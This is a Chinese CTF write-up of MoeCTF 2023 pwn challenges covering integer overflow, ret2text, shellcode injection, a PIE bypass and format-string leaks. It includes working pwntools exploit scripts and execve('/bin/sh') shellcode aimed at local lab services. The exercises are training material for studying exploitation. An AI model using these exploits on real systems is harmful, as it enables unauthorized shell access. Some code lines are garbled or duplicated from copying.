PWN
pwndbg基本操作指令
参考此博客pwndbg
基本操作指令 - MuRKuo - 博客园 (cnblogs.com)
baby_calculator
简单的计算器，考察对pwntools的使用
from pwn import *p = remote("127.0.0.1" ,39217 ) for i in range (100 ): print (p.recvuntil("The first:" )) a = int (p.recvuntil("\n" )[:-1 ]) print (p.recvuntil("The second:" )) b = int (p.recvuntil("\n" )[:-1 ]) print (p.recvuntil("=" )) c = int (p.recvuntil("\n" )[:-1 ]) print (a,b,a+b,c) if a + b == c: p.sendline(b"BlackBird" ) else : p.sendline(b"WingS" ) while 1 : print (p.recv())
fd
参考moectf2022文件标识符一题
文件描述符：在计算机操作系统中，文件描述符是一个非负整数，用来唯一标识一个打开的文件或其他I/O资源。操作系统使用文件描述符来跟踪和管理这些资源。每个打开的文件都会分配一个文件描述符，这个描述符可以用来读取或写入文件。
标准输入/输出/错误：这些是在Unix-like操作系统中常见的特殊文件，用于处理输入和输出。具体来说：
标准输入（stdin，文件描述符
0）：它是程序默认用于接收输入数据的文件描述符。当你在终端键入内容时，这些内容被送入程序的标准输入。例如，通过键盘输入的数据会被传递给程序的标准输入，程序可以读取并处理这些数据。
标准输出（stdout，文件描述符
1）：它是程序默认用于输出数据的文件描述符。程序可以将信息写入标准输出，这些信息通常会显示在终端上。例如，程序输出的文本会在终端显示。
标准错误（stderr，文件描述符
2）：类似于标准输出，它用于输出错误信息。程序可以将错误信息写入标准错误，通常也会显示在终端上。这有助于区分标准输出和错误输出。
在计算机中，每当你打开一个文件或者与其他输入输出资源进行交互时，操作系统都会给这个资源分配一个唯一的数字。这个数字被称为文件描述符，它是操作系统用来识别这个资源的方式。
默认情况下，前三个文件描述符已经被系统用于特殊目的：
文件描述符 0 代表标准输入（键盘输入）
文件描述符 1 代表标准输出（屏幕输出）
文件描述符 2 代表标准错误（错误信息输出）
当你通过程序打开一个新的文件时，操作系统会分配一个新的文件描述符来表示这个文件。根据这段话的描述，如果这是第一个被打开的文件，那么操作系统可能会分配文件描述符
3 给这个文件。
chat一下
int __cdecl main(int argc, const char argv, const
char envp)
{
int fd; // 用于文件描述符的整数变量
unsigned __int64 v5; // 用于存储某个值的无符号整数变量
v5 = __readfsqword(0x28u); //
这行代码读取一个特定偏移地址的值，并存储在v5中
setvbuf(stdin, 0LL, 2, 0LL); // 设置标准输入的缓冲区模式
setvbuf(stdout, 0LL, 2, 0LL); // 设置标准输出的缓冲区模式
setvbuf(stderr, 0LL, 2, 0LL); // 设置标准错误输出的缓冲区模式
puts("In UNIX, everything is a file."); //
在标准输出上输出一行文本
puts("Your screen is a file, too."); // 在标准输出上输出一行文本
puts("Do you know how to print flag on your screen file?"); //
在标准输出上输出一行文本
close(1); // 关闭标准输出
open("./flag", 0); //
打开名为"flag"的文件，使用文件描述符1（标准输出）来引用它
__isoc99_scanf("%u", &fd); //
从标准输入读取一个无符号整数，并存储在fd中
read(fd, &flag, 0x40uLL); //
从给定文件描述符fd中读取数据，并存储在flag中，最多读取0x40字节（64字节）
__isoc99_scanf("%u", &fd); //
从标准输入再次读取一个无符号整数，并存储在fd中
write(fd, &flag, 0x40uLL); //
向给定文件描述符fd中写入flag的内容，最多写入0x40字节（64字节）
return 0; // 程序正常退出，返回值为0
}
setvbuf
是C标准库提供的一个函数，用于设置标准输入、标准输出或标准错误的缓冲区模式。函数的原型为：
cCopy code int setvbuf (FILE *stream, char *buf, int mode, size_t size) ;
现在我们来逐个解释你提到的这行代码：
cCopy code setvbuf (stdin , 0LL , 2 , 0LL ) ;
stdin：这是一个已经定义好的标准输入文件流，它代表标准输入（通常是键盘输入）。0LL：这是一个空指针，指向内存地址为0的位置。在这里，它用作缓冲区的指针，表示不使用缓冲区。2：这是缓冲模式。在这里，2
表示完全无缓冲模式，也就是说，输入的数据会立即被传递给程序进行处理，而不是等待一定量的数据积累后再进行处理。0LL：同样是空指针，用于设置缓冲区的大小，但因为之前选择了无缓冲模式，所以这个值没有实际意义。
综上，这行代码的作用是将标准输入的缓冲模式设置为完全无缓冲模式，这意味着输入的数据将立即传递给程序进行处理，而不会等待缓冲区填满。这在某些特定情况下可能会用于实现实时的输入响应，或者是避免缓冲导致的数据延迟。然而，需要注意的是，完全无缓冲模式可能会增加I/O操作的频率，可能会对性能产生影响。

脚本找不着了，开摆
int_overflow
void __cdecl vuln () { int n; unsigned __int64 v1; v1 = __readfsqword(0x28 u); puts ("Welcome to Moectf2023." ); puts ("Do you know int overflow?" ); puts ("Can you make n == -114514 but no '-' when you input n." ); puts ("Please input n:" ); get_input(&n); if ( n == -114514 ) backdoor(); puts ("Maybe you should search and learn it." ); }
这里复习一下：
原码、反码、补码 -
知乎 (zhihu.com)
了解一下atoi函数
atoi函数是将字符串转换为int（整数）类型的函数。它会将一个以数字字符表示的字符串解析为整数，并返回相应的整数值
故按照4字节换算-114514的二进制为1 1111 1111 1111 1110 0100 0000 1010
1110
其对应的大整数为8,589,820,078
故输入此数即可

ret2text32
ssize_t vuln () { size_t nbytes; char buf[84 ]; puts ("Welcome to my stack in MoeCTF2023!" ); puts ("What's your age?" ); __isoc99_scanf("%d" , &nbytes); puts ("Now..try to overflow!" ); return read(0 , buf, nbytes); }
简单的32位ret2text
int b4ckdoor () { return system("echo hi!" ); }

exp如下：
from pwn import *p = remote("127.0.0.1" ,46027 ) print (p.recv())p.sendline(b'200' ) sysadd = 0x080492A9 shadd = 0x0804C02c payload = b'a' *0x5c + p32(sysadd) + p32(shadd) p.sendline(payload) p.interactive()
ret2text64
ssize_t vuln () { int v1; char buf[80 ]; puts ("Welcome to my stack in MoeCTF2023!" ); puts ("But this time..you need to find the point to get it!" ); puts ("What's your age?" ); __isoc99_scanf("%d" , &v1); puts ("Now..try to overflow!" ); return read(0 , buf, v1); }
int b4ckdoor () { return system("echo hi!" ); }

exp如下：
from pwn import *p = remote("127.0.0.1" , 45687 ) print (p.recv())p.sendline(b"427" ) shadd = 0x404050 payload = b'a' * (80 + 8 ) poprdi = 0x4011BB sysadd = 0x4012B7 payload += p64(poprdi) + p64(shadd)+p64(sysadd) print (p.recv())p.send(payload) p.interactive()
==64位要注意
有些需要以0x10对齐，有些不要，都得试试，暂时还不知道是为啥，似乎是不同操作系统的处理方式不同==
shellcode_level0
; int __cdecl main (int argc, const char **argv, const char **envp) public main main proc near var_78= qword ptr -78 h var_70= qword ptr -70 h var_68= qword ptr -68 h var_60= qword ptr -60 h var_58= qword ptr -58 h var_50= qword ptr -50 h var_48= qword ptr -48 h var_40= qword ptr -40 h var_38= qword ptr -38 h var_30= qword ptr -30 h var_28= qword ptr -28 h var_20= qword ptr -20 h var_18= qword ptr -18 h var_10= dword ptr -10 h var_8= qword ptr -8 ; __unwind { endbr64 push rbp mov rbp, rsp add rsp, 0F FFFFFFFFFFFFF80h mov rax, fs:28 h; int __cdecl main (int argc, const char **argv, const char **envp) public main main proc near var_78= qword ptr -78 h var_70= qword ptr -70 h var_68= qword ptr -68 h var_60= qword ptr -60 h var_58= qword ptr -58 h var_50= qword ptr -50 h var_48= qword ptr -48 h var_40= qword ptr -40 h var_38= qword ptr -38 h var_30= qword ptr -30 h var_28= qword ptr -28 h var_20= qword ptr -20 h var_18= qword ptr -18 h var_10= dword ptr -10 h var_8= qword ptr -8 ; __unwind { endbr64 push rbp mov rbp, rsp add rsp, 0F FFFFFFFFFFFFF80h mov rax, fs:28 h mov [rbp+var_8], rax xor eax, eax mov [rbp+var_70], 0 mov [rbp+var_68], 0 mov [rbp+var_60], 0 mov [rbp+var_58], 0 mov [rbp+var_50], 0 mov [rbp+var_48], 0 mov [rbp+var_40], 0 mov [rbp+var_38], 0 mov [rbp+var_30], 0 mov [rbp+var_28], 0 mov [rbp+var_20], 0 mov [rbp+var_18], 0 mov [rbp+var_10], 0 lea rax, [rbp+var_70] mov rdi, rax mov eax, 0 call _gets lea rax, [rbp+var_70] mov [rbp+var_78], rax mov rdx, [rbp+var_78] mov eax, 0 call rdx mov eax, 0 mov rdx, [rbp+var_8] sub rdx, fs:28 h jz short locret_1248 mov [rbp+var_8], rax xor eax, eax mov [rbp+var_70], 0 mov [rbp+var_68], 0 mov [rbp+var_60], 0 mov [rbp+var_58], 0 mov [rbp+var_50], 0 mov [rbp+var_48], 0 mov [rbp+var_40], 0 mov [rbp+var_38], 0 mov [rbp+var_30], 0 mov [rbp+var_28], 0 mov [rbp+var_20], 0 mov [rbp+var_18], 0 mov [rbp+var_10], 0 lea rax, [rbp+var_70] mov rdi, rax mov eax, 0 call _gets lea rax, [rbp+var_70] mov [rbp+var_78], rax mov rdx, [rbp+var_78] mov eax, 0 call rdx mov eax, 0 mov rdx, [rbp+var_8] sub rdx, fs:28 h jz short locret_1248
这里无法反汇编，报错是122d处调用函数失败
lea：lea是"Load Effective Address" 的缩写，它不是用来加载数据，而是用来加载一个内存地址。在这个指令中，它将内存地址加载到寄存器rax中。
注意lea与mov的区别，lea是传地址，而mov是传内容
可以看到，rdi中存放的是rax的值，rax存放的是地址rbp+var_70，即栈中一个变量的地址，而该变量又刚刚被作为gets函数的参数

猜测是直接运行输入的函数，确是如此，exp如下
from pwn import *context.os='linux' context.arch='amd64' p=remote("127.0.0.1" ,41871 ) shellcode=asm(shellcraft.sh()) p.sendline(shellcode) p.interactive()
shellcode_level1
int __cdecl main (int argc, const char **argv, const char **envp) { char *v3; __int64 v4; __int64 v5; __int64 v6; __int64 v7; __int64 v8; __int64 v9; _QWORD *v10; __int64 v11; __int64 v12; __int64 v13; __int64 v14; __int64 v15; __int64 v16; _QWORD *v17; __int64 v18; __int64 v19; __int64 v20; __int64 v21; __int64 v22; __int64 v23; int choise; void (*p)(...); char *paper3; void *paper4; void *paper5; char shellcode[100 ]; char paper2[100 ]; unsigned __int64 v32; v32 = __readfsqword(0x28 u); memset (shellcode, 0 , sizeof (shellcode)); memset (paper2, 0 , sizeof (paper2)); paper3 = (char *)malloc (0x64 uLL); paper4 = mmap(0LL , 0x64 uLL, 3 , 34 , -1 , 0LL ); paper5 = mmap(0LL , 0x64 uLL, 7 , 34 , -1 , 0LL ); choise = 0 ; puts ("Which paper will you choose?" ); __isoc99_scanf("%d" , &choise); puts ("what do you want to write?" ); __isoc99_scanf("%s" , shellcode); switch ( choise ) { case 1 : *(_QWORD *)paper1 = *(_QWORD *)shellcode; *(_QWORD *)&paper1[8 ] = *(_QWORD *)&shellcode[8 ]; *(_QWORD *)&paper1[16 ] = *(_QWORD *)&shellcode[16 ]; *(_QWORD *)&paper1[24 ] = *(_QWORD *)&shellcode[24 ]; *(_QWORD *)&paper1[32 ] = *(_QWORD *)&shellcode[32 ]; *(_QWORD *)&paper1[40 ] = *(_QWORD *)&shellcode[40 ]; *(_QWORD *)&paper1[48 ] = *(_QWORD *)&shellcode[48 ]; *(_QWORD *)&paper1[56 ] = *(_QWORD *)&shellcode[56 ]; *(_QWORD *)&paper1[64 ] = *(_QWORD *)&shellcode[64 ]; *(_QWORD *)&paper1[72 ] = *(_QWORD *)&shellcode[72 ]; *(_QWORD *)&paper1[80 ] = *(_QWORD *)&shellcode[80 ]; *(_QWORD *)&paper1[88 ] = *(_QWORD *)&shellcode[88 ]; *(_DWORD *)&paper1[96 ] = *(_DWORD *)&shellcode[96 ]; p = (void (*)(...))paper1; break ; case 2 : *(_QWORD *)paper2 = *(_QWORD *)shellcode; *(_QWORD *)&paper2[8 ] = *(_QWORD *)&shellcode[8 ]; *(_QWORD *)&paper2[16 ] = *(_QWORD *)&shellcode[16 ]; *(_QWORD *)&paper2[24 ] = *(_QWORD *)&shellcode[24 ]; *(_QWORD *)&paper2[32 ] = *(_QWORD *)&shellcode[32 ]; *(_QWORD *)&paper2[40 ] = *(_QWORD *)&shellcode[40 ]; *(_QWORD *)&paper2[48 ] = *(_QWORD *)&shellcode[48 ]; *(_QWORD *)&paper2[56 ] = *(_QWORD *)&shellcode[56 ]; *(_QWORD *)&paper2[64 ] = *(_QWORD *)&shellcode[64 ]; *(_QWORD *)&paper2[72 ] = *(_QWORD *)&shellcode[72 ]; *(_QWORD *)&paper2[80 ] = *(_QWORD *)&shellcode[80 ]; *(_QWORD *)&paper2[88 ] = *(_QWORD *)&shellcode[88 ]; *(_DWORD *)&paper2[96 ] = *(_DWORD *)&shellcode[96 ]; p = (void (*)(...))paper2; break ; case 3 : v3 = paper3; v4 = *(_QWORD *)&shellcode[8 ]; *(_QWORD *)paper3 = *(_QWORD *)shellcode; *((_QWORD *)v3 + 1 ) = v4; v5 = *(_QWORD *)&shellcode[24 ]; *((_QWORD *)v3 + 2 ) = *(_QWORD *)&shellcode[16 ]; *((_QWORD *)v3 + 3 ) = v5; v6 = *(_QWORD *)&shellcode[40 ]; *((_QWORD *)v3 + 4 ) = *(_QWORD *)&shellcode[32 ]; *((_QWORD *)v3 + 5 ) = v6; v7 = *(_QWORD *)&shellcode[56 ]; *((_QWORD *)v3 + 6 ) = *(_QWORD *)&shellcode[48 ]; *((_QWORD *)v3 + 7 ) = v7; v8 = *(_QWORD *)&shellcode[72 ]; *((_QWORD *)v3 + 8 ) = *(_QWORD *)&shellcode[64 ]; *((_QWORD *)v3 + 9 ) = v8; v9 = *(_QWORD *)&shellcode[88 ]; *((_QWORD *)v3 + 10 ) = *(_QWORD *)&shellcode[80 ]; *((_QWORD *)v3 + 11 ) = v9; *((_DWORD *)v3 + 24 ) = *(_DWORD *)&shellcode[96 ]; p = (void (*)(...))paper3; break ; case 4 : v10 = paper4; v11 = *(_QWORD *)&shellcode[8 ]; *(_QWORD *)paper4 = *(_QWORD *)shellcode; v10[1 ] = v11; v12 = *(_QWORD *)&shellcode[24 ]; v10[2 ] = *(_QWORD *)&shellcode[16 ]; v10[3 ] = v12; v13 = *(_QWORD *)&shellcode[40 ]; v10[4 ] = *(_QWORD *)&shellcode[32 ]; v10[5 ] = v13; v14 = *(_QWORD *)&shellcode[56 ]; v10[6 ] = *(_QWORD *)&shellcode[48 ]; v10[7 ] = v14; v15 = *(_QWORD *)&shellcode[72 ]; v10[8 ] = *(_QWORD *)&shellcode[64 ]; v10[9 ] = v15; v16 = *(_QWORD *)&shellcode[88 ]; v10[10 ] = *(_QWORD *)&shellcode[80 ]; v10[11 ] = v16; *((_DWORD *)v10 + 24 ) = *(_DWORD *)&shellcode[96 ]; p = (void (*)(...))paper4; mprotect(paper4, 0x1000 uLL, 7 ); break ; case 5 : v17 = paper5; v18 = *(_QWORD *)&shellcode[8 ]; *(_QWORD *)paper5 = *(_QWORD *)shellcode; v17[1 ] = v18; v19 = *(_QWORD *)&shellcode[24 ]; v17[2 ] = *(_QWORD *)&shellcode[16 ]; v17[3 ] = v19; v20 = *(_QWORD *)&shellcode[40 ]; v17[4 ] = *(_QWORD *)&shellcode[32 ]; v17[5 ] = v20; v21 = *(_QWORD *)&shellcode[56 ]; v17[6 ] = *(_QWORD *)&shellcode[48 ]; v17[7 ] = v21; v22 = *(_QWORD *)&shellcode[72 ]; v17[8 ] = *(_QWORD *)&shellcode[64 ]; v17[9 ] = v22; v23 = *(_QWORD *)&shellcode[88 ]; v17[10 ] = *(_QWORD *)&shellcode[80 ]; v17[11 ] = v23; *((_DWORD *)v17 + 24 ) = *(_DWORD *)&shellcode[96 ]; p = (void (*)(...))paper5; mprotect(paper5, 0x1000 uLL, 0 ); break ; } p(); return 0 ; }
paper4 = mmap(0LL , 0x64 uLL, 3 , 34 , -1 , 0LL ); paper5 = mmap(0LL , 0x64 uLL, 7 , 34 , -1 , 0LL );
paper4 = mmap(0LL, 0x64uLL, 3, 34, -1, 0LL);
0LL：这是起始地址，通常设置为0以由内核自动分配合适的地址。
0x64uLL：这是要映射的内存区域的长度，即100字节。
``` 3
：这是权限标志，指定了映射区域的权限。 - `PROT_READ` (1)：允许读取映射区域的内容。 - `PROT_WRITE` (2)：允许写入映射区域的内容。 - `34`：这是标志位，通常与`MAP_PRIVATE`标志结合使用，表示映射是私有的，对它的写入不会影响其他进程。 - `-1`：这是文件描述符，设置为-1，表示没有关联的文件。 - `0LL`：这是文件中的偏移量，通常设置为0，因为没有关联的文件。 因此，`paper4`映射具有读取（PROT_READ）和写入（PROT_WRITE）的权限，而且是私有映射（MAP_PRIVATE），没有与文件关联。 2. `paper5 = mmap(0LL, 0x64uLL, 7, 34, -1, 0LL);` - `0LL`：同样是起始地址，通常设置为0以由内核自动分配合适的地址。 - `0x64uLL`：这是要映射的内存区域的长度，即100字节。 - ``` 7
：这是权限标志，指定了映射区域的权限。
PROT_READ (1)：允许读取映射区域的内容。PROT_WRITE (2)：允许写入映射区域的内容。PROT_EXEC (4)：允许在映射区域内执行代码。 34：这是标志位，通常与MAP_PRIVATE标志结合使用，表示映射是私有的，对它的写入不会影响其他进程。
-1：这是文件描述符，设置为-1，表示没有关联的文件。
0LL：这是文件中的偏移量，通常设置为0，因为没有关联的文件。
因此，paper5映射具有读取（PROT_READ）、写入（PROT_WRITE）和执行（PROT_EXEC）的权限，同样是私有映射（MAP_PRIVATE），没有与文件关联。
总结，paper4具有读取和写入的权限，而paper5具有读取、写入和执行的权限。这些权限设置根据实际需求和用途来决定，开发者根据需要来选择适当的权限标志。
注意到，之后还用mprotect进行了权限更改：
mprotect(paper4, 0x1000 uLL, 7 ); mprotect(paper5, 0x1000 uLL, 0 );
分析得 这里应该用paper4
前面代码看了猜测功能是读取输入并尝试执行输入
脚本找不着了
shellcode_level2
=============== S U B R O U T I N E ======================================= .text:00000000000011 A9 .text:00000000000011 A9 ; Attributes: bp-based frame .text:00000000000011 A9 .text:00000000000011 A9 ; int __cdecl main (int argc, const char **argv, const char **envp) .text:00000000000011A9 public main .text:00000000000011A9 main proc near ; DATA XREF: _start+18 ↑o .text:00000000000011 A9 .text:00000000000011 A9 var_78= qword ptr -78 h .text:00000000000011 A9 s= qword ptr -70 h .text:00000000000011 A9 var_68= qword ptr -68 h .text:00000000000011 A9 var_60= qword ptr -60 h .text:00000000000011 A9 var_58= qword ptr -58 h .text:00000000000011 A9 var_50= qword ptr -50 h .text:00000000000011 A9 var_48= qword ptr -48 h .text:00000000000011 A9 var_40= qword ptr -40 h .text:00000000000011 A9 var_38= qword ptr -38 h .text:00000000000011 A9 var_30= qword ptr -30 h .text:00000000000011 A9 var_28= qword ptr -28 h .text:00000000000011 A9 var_20= qword ptr -20 h .text:00000000000011 A9 var_18= qword ptr -18 h .text:00000000000011 A9 var_10= dword ptr -10 h .text:00000000000011 A9 var_8= qword ptr -8 .text:00000000000011 A9 .text:00000000000011 A9 ; __unwind { .text:00000000000011 A9 F3 0F 1 E FA endbr64 .text:00000000000011 AD 55 push rbp .text:00000000000011 AE 48 89 E5 mov rbp, rsp .text:00000000000011B 1 48 83 C4 80 add rsp, 0F FFFFFFFFFFFFF80h .text:00000000000011B 5 64 48 8B 04 25 28 00 00 00 mov rax, fs:28 h .text:00000000000011B E 48 89 45 F8 mov [rbp+var_8], rax .text:00000000000011 C2 31 C0 xor eax, eax .text:00000000000011 C4 48 C7 45 90 00 00 00 00 mov [rbp+s], 0 .text:00000000000011 CC 48 C7 45 98 00 00 00 00 mov [rbp+var_68], 0 .text:00000000000011 D4 48 C7 45 A0 00 00 00 00 mov [rbp+var_60], 0 .text:00000000000011 DC 48 C7 45 A8 00 00 00 00 mov [rbp+var_58], 0 .text:00000000000011E4 48 C7 45 B0 00 00 00 00 mov [rbp+var_50], 0 .text:00000000000011 EC 48 C7 45 B8 00 00 00 00 mov [rbp+var_48], 0 .text:00000000000011F 4 48 C7 45 C0 00 00 00 00 mov [rbp+var_40], 0 .text:00000000000011F C 48 C7 45 C8 00 00 00 00 mov [rbp+var_38], 0 .text:0000000000001204 48 C7 45 D0 00 00 00 00 mov [rbp+var_30], 0 .text:000000000000120 C 48 C7 45 D8 00 00 00 00 mov [rbp+var_28], 0 .text:0000000000001214 48 C7 45 E0 00 00 00 00 mov [rbp+var_20], 0 .text:000000000000121 C 48 C7 45 E8 00 00 00 00 mov [rbp+var_18], 0 .text:0000000000001224 C7 45 F0 00 00 00 00 mov [rbp+var_10], 0 .text:000000000000122B 48 8 D 45 90 lea rax, [rbp+s] .text:000000000000122F 48 89 C7 mov rdi, rax .text:0000000000001232 B8 00 00 00 00 mov eax, 0 .text:0000000000001237 E8 74 FE FF FF call _gets .text:0000000000001237 .text:000000000000123 C 48 8 D 45 90 lea rax, [rbp+s] .text:0000000000001240 0F B6 00 movzx eax, byte ptr [rax] .text:0000000000001243 84 C0 test al, al .text:0000000000001245 74 16 jz short loc_125D .text:0000000000001245 .text:0000000000001247 48 8 D 45 90 lea rax, [rbp+s] .text:000000000000124B BA 64 00 00 00 mov edx, 64 h ; 'd' ; n .text:0000000000001250 BE 00 00 00 00 mov esi, 0 ; c .text:0000000000001255 48 89 C7 mov rdi, rax ; s .text:0000000000001258 E8 43 FE FF FF call _memset .text:0000000000001258 .text:000000000000125 D .text:000000000000125 D loc_125D: ; CODE XREF: main+9 C↑j .text:000000000000125 D 48 8 D 45 90 lea rax, [rbp+s] .text:0000000000001261 48 83 C0 01 add rax, 1 .text:0000000000001265 48 89 45 88 mov [rbp+var_78], rax .text:0000000000001269 48 8B 55 88 mov rdx, [rbp+var_78] .text:000000000000126 D B8 00 00 00 00 mov eax, 0 .text:0000000000001272 FF D2 call rdx .text:0000000000001272 .text:0000000000001274 B8 00 00 00 00 mov eax, 0 .text:0000000000001279 48 8B 55 F8 mov rdx, [rbp+var_8] .text:000000000000127 D 64 48 2B 14 25 28 00 00 00 sub rdx, fs:28 h .text:0000000000001286 74 05 jz short locret_128D .text:0000000000001286 .text:0000000000001288 E8 F3 FD FF FF call ___stack_chk_fail .text:0000000000001288 .text:000000000000128 D ; --------------------------------------------------------------------------- .text:000000000000128 D .text:000000000000128 D locret_128D: ; CODE XREF: main+DD↑j .text:000000000000128 D C9 leave .text:000000000000128 E C3 retn .text:000000000000128 E ; } .text:000000000000128 E .text:000000000000128 E main endp
估计又调用了我们输入的shellcode，无法反汇编，这里有个小技巧，可以将call
代码的地方patch为nop
即可反汇编
int __cdecl main (int argc, const char **argv, const char **envp) { __int64 s[12 ]; int v5; unsigned __int64 v6; v6 = __readfsqword(0x28 u); memset (s, 0 , sizeof (s)); v5 = 0 ; gets(s, argv, envp); if ( LOBYTE(s[0 ]) ) memset (s, 0 , 0x64 uLL); return 0 ;
可分析出来 我们s[0] == 1即可，调用s[1]开始的shellcode
脚本又没了
shellcode_level3
int __cdecl main (int argc, const char **argv, const char **envp) { puts ("5 bytes ni neng miao sha wo?" ); mprotect(&GLOBAL_OFFSET_TABLE_, 0x1000 uLL, 7 ); gets(&code); memset (&unk_40408E, 0 , 0xF72 uLL); ((void (*)(void ))code)(); return 0 ; }
这里只留了五个字节给我们输入shellcode，想到可以利用call(但是最后似乎由于传入参数啥不正确等导致无法正常getshell)，故使用jmp指令来跳转到后门函数，这里需要了解一下jmp指令的相关知识
问了下chat，知识大概如下：
jmp
指令是汇编语言中的一种跳转指令，用于改变程序的执行流程。它允许程序跳转到指定的内存地址或标签，从而执行不同的代码段或子程序。下面我将详细讲解
jmp 指令的使用和构造。
jmp
指令的基本语法如下（具体语法可能因汇编语言的不同而有所不同）：
jmp：跳转指令的助记符。destination：指示跳转目标的地址或标签。
jmp
指令的作用是将程序的执行流程转移到指定的目标位置。跳转目标可以是以下几种形式之一：
绝对地址 ：直接指定要跳转到的内存地址。例如：
这会使程序跳转到内存地址 0x00400000
处执行代码。
相对地址 ：指定相对于当前指令的偏移量，用于执行相对跳转。例如：
jmp short_label ... short_label:
这会使程序跳转到 short_label
标签所在的位置执行代码。
寄存器或内存地址 ：可以将跳转目标存储在寄存器或内存地址中，然后使用
jmp 指令跳转到该地址。例如：
mov eax, 0x00400000 ; 将目标地址存储在寄存器 eax 中 jmp eax
这会使程序跳转到 eax
寄存器中存储的地址处执行代码。
间接寻址 ：使用寄存器或内存中的值作为跳转目标。例如：
mov ebx, [jump_address] ; 从内存中加载跳转地址到 ebx 寄存器 jmp ebx ... jump_address: dd 0x00400000 ; 存储跳转目标地址的内存位置
这会使程序根据 jump_address
中存储的地址跳转到相应的位置执行代码。
构造 jmp 指令通常需要考虑以下几个方面：
确定跳转目标 ：首先，确定您希望程序跳转到哪个位置执行代码。这可以是一个绝对地址、相对地址、寄存器的值或内存中的地址。选择适当的寻址方式 ：根据跳转目标的形式，选择适当的寻址方式。如果是绝对地址，直接指定即可；如果是相对地址，使用标签或偏移量；如果是寄存器或内存中的值，加载到寄存器并跳转。编写汇编代码 ：根据所选的寻址方式编写汇编代码，并确保
jmp 指令紧随其后。汇编和链接 ：将汇编代码汇编成二进制文件，然后将多个文件链接在一起，以生成可执行程序。
请注意，具体的汇编语言和汇编器可能有不同的语法和约定，因此上述示例代码可能不适用于所有汇编语言和平台。要构造特定的
jmp
指令，需要查阅相关的汇编语言文档和工具文档以了解具体的语法和用法。

这里采用的相对地址跳转的形式，构造可以通过自己计算，也可以如上ida找到相应的data段用keypatch查看,具体exp如下:
from pwn import *context.os='linux' context.arch='amd64' p=remote('127.0.0.1' ,38375 ) p.sendline(b'\xe9\x48\xd1\xff\xff' ) p.interactive()
changeable_shellcode
这里题目限制了shellcode的长度，并且进禁止输入syscall，根据题目名字猜测，要自己编写一个能够修改自身并且完成get
shell的shellcode，以下是用pwntools生成的shellcode，asm后长度为48，完全没法使用，故我们这里需要自己从头开始编写一段shellcode：
/* execve(path='/bin///sh', argv=['sh'], envp=0) */ /* push b'/bin///sh\x00' */ push 0x68 mov rax, 0x732f2f2f6e69622f push rax mov rdi, rsp /* push argument array ['sh\x00'] */ /* push b'sh\x00' */ push 0x1010101 ^ 0x6873 xor dword ptr [rsp], 0x1010101 xor esi, esi /* 0 */ push rsi /* null terminate */ push 8 pop rsi add rsi, rsp push rsi /* 'sh\x00' */ mov rsi, rsp xor edx, edx /* 0 */ /* call execve() */ push SYS_execve /* 0x3b */ pop rax syscall
linux环境下shellcode的编写：32位和64位_bin/sh
对应的shellcode
是什么___lifanxin的博客-CSDN博客 参考该博客浅浅学习了以下
经过对add，xor与直接mov的对比，最后决定直接使用mov指令，exp如下
from pwn import *context.os='linux' context.arch='amd64' p = remote('localhost' ,41895 ) shellcode1 = '''mov al, 0x05 mov byte ptr [0x114514020], al ''' shellcode2 = ''' mov rbx, 0x68732f6e69622f push rbx push rsp pop rdi xor esi, esi # rsi低32位 xor edx, edx # rdx低32位 push 0x3b pop rax syscall ''' print (asm(shellcode1))print (len (asm(shellcode1)))shellcode1_asm = asm(shellcode1) print (asm(shellcode2))print (len (asm(shellcode2)))shellcode2_asm = asm(shellcode2) shellcode = shellcode1_asm + shellcode2_asm[:-1 ] print (shellcode)p.sendafter("Please input your shellcode: \n" ,shellcode) p.interactive()

PIE_enabled
PIE简单介绍
具体来说，PIE确保在加载可执行文件时，每个内存页内的地址保持相对不变。这意味着内存页之间的相对偏移关系在加载时保持不变，但整个程序的基地址会在加载时随机选择。
在传统的非PIE可执行文件中，整个程序都依赖于一个固定的基地址，因此每个内存页的物理地址可以被直接计算出来，而不需要重定位。这也是为什么传统可执行文件容易受到攻击的原因之一，因为攻击者可以根据已知的基地址来计算出目标内存位置的地址。
而在PIE中，每次加载时会随机选择一个基地址，但内存页内的相对地址关系保持不变。这意味着程序的代码和数据之间的相对距离保持不变，但它们的实际物理地址会发生变化。这增加了攻击者确定特定内存位置的难度，因为攻击者不再能够依赖于固定的基地址。


参考此图学习一下段和节的映射关系，PIE实际上是每次载入虚拟内存页的时候(0x1000为单位)都取随机的地址，但不会差的很离谱，使得映射关系都改变，并且这里.text段很短，显然一个内存页可以放的下，故可以利用程序给我们的gift取获取其中指令的准确地址去构造syscall
exp如下：
from pwn import *p = remote("127.0.0.1" ,42441 ) vul = 0x1245 popret = 0x1323 binsh = 0x4010 system = 0x11d8 p.recvuntil(b"Vuln's address is:" ) sysadd = int (p.recv()[2 :-1 ],16 ) payload = b'a' *0x50 +b'a' *8 + p64((popret-vul)+sysadd) + p64(binsh-vul+sysadd) + p64(system - vul + sysadd) p.send(payload) p.interactive()
uninitialized_key
这题磨了老久，人麻了，一开始以为是输入数据只会改变其所需的低位，不会将其余数据位的数据清零，现在想想一点不正确,尝试许久之后发现怎么样都会改变，最后尝试输入符号然后过了，哭
感觉这题应该是引导去分析scanf的源码吗

uninitialized_key_plus
void __cdecl get_name () { char name[24 ]; unsigned __int64 v1; v1 = __readfsqword(0x28 u); memset (name, 0 , sizeof (name)); puts ("Please input your name:" ); __isoc99_scanf("%24s" , name); printf ("Your name is %s.\n" , name); }
这里较上题改变的部分仅是我们无法直接输入整数，而是要搞清楚整数的存储方式之后以其存储形式存入即可，这里要注意是小端存储，且之后读入整数处相当于此字符串开头
exp：
from pwn import *p = remote("127.0.0.1" ,45115 ) p.recv() p.sendline(b"R\xBF\x01\x00" .rjust(24 ,b"a" )) p.interactive()
这里简单讲解下格式化字符串：
格式化输出函数
printf、sprintf、fprintf等函数==格式化变参输出函数==，有普通字符和转换规则构成的字符序列。
转换规则由必选部分和可选部分组成，可选部分如下
%d
%u
%s
%p
hh h ll l
格式化字符串漏洞
由于x86和x64对函数的参数特殊的识别规则，导致可以利用格式化字符串来读取非参数区的内容
漏洞使用
使程序崩溃
栈数据泄露
利用%x，%p等方式泄露栈中的数据
任意地址内存泄露
%s
可以泄露出参数指针指向内存的数据，程序会将其视作一个ascll字符串处理，知道遇到一个空字符，所以，如果攻击者能够操控这个参数的值，那么就可以泄露任意地址的内容。
例子：
先通过AAAA-%p-%p-%p-%p……找到AAAA处是“第几个参数”，假设AAAA位于第13个参数，便可通过%13s打印出栈中第十三个参数所指向的字符串的存储位置
